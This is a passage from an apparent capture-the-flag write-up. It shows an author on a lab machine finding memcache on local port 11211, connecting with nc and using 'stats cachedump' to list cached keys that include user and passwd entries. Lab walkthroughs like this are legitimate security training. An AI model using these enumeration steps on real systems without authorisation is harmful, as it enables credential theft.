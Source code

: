 ```
tcp6       0      0 10.10.10.188:80         10.10.14.17:54418       ESTABLISHED -                   
udp        0      0 127.0.0.1:59887         127.0.0.53:53           ESTABLISHED -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -      
```

Port 11211 is listening, which is memcache. Based on the name of the box, there's probably something juicy in there! We'll connect to it with nc:

```
nc -nv 127.0.0.1 11211

stats items

stats items
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 18
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 48
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 415
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 2
STAT items:1:hits_to_temp 0
END
```

We can see that there's only 1 item, so we'll go ahead and dump it:

```
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```
